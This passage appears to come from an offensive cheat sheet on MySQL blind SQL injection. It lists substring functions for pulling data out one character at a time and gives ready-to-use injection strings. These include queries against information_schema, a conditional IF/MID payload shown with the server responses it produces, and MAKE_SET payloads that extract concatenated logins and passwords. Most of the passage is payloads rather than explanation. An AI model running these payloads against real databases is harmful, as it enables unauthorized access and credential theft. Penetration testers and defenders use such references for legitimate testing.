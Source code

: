 | Function | Example | Description |
| --- | --- | --- |
| `SUBSTR` | `SUBSTR(version(),1,1)=5` | Extracts a substring from a string (starting at any position) |
| `SUBSTRING` | `SUBSTRING(version(),1,1)=5` | Extracts a substring from a string (starting at any position) |
| `RIGHT` | `RIGHT(left(version(),1),1)=5` | Extracts a number of characters from a string (starting from right) |
| `MID` | `MID(version(),1,1)=4` | Extracts a substring from a string (starting at any position) |
| `LEFT` | `LEFT(version(),1)=4` | Extracts a number of characters from a string (starting from left) |

Examples of Blind SQL injection using `SUBSTRING` or another equivalent function:

```sql
?id=1 AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'
?id=1 AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > 'A'
?id=1 AND ASCII(LOWER(SUBSTR(version(),1,1)))=51
```


### MYSQL Blind Using a Conditional Statement

* TRUE: `if @@version starts with a 5`:

    ```sql
    2100935' OR IF(MID(@@version,1,1)='5',sleep(1),1)='2
    Response:
    HTTP/1.1 500 Internal Server Error
    ```

* FALSE: `if @@version starts with a 4`:

    ```sql
    2100935' OR IF(MID(@@version,1,1)='4',sleep(1),1)='2
    Response:
    HTTP/1.1 200 OK
    ```


### MYSQL Blind With MAKE_SET

```sql
AND MAKE_SET(VALUE_TO_EXTRACT<(SELECT(length(version()))),1)
AND MAKE_SET(VALUE_TO_EXTRACT<ascii(substring(version(),POS,1)),1)
AND MAKE_SET(VALUE_TO_EXTRACT<(SELECT(length(concat(login,password)))),1)
AND MAKE_SET(VALUE_TO_EXTRACT<ascii(substring(concat(login,password),POS,1)),1)
```


### MYSQL Blind With LIKE

In MySQL, the `LIKE` operator can be used to perform pattern matching in queries. The operator allows the use of wildcard characters to match unknown or partial string values. This is especially useful in a blind SQL injection context when an attacker does not know the length or specific content of the data stored in the database.
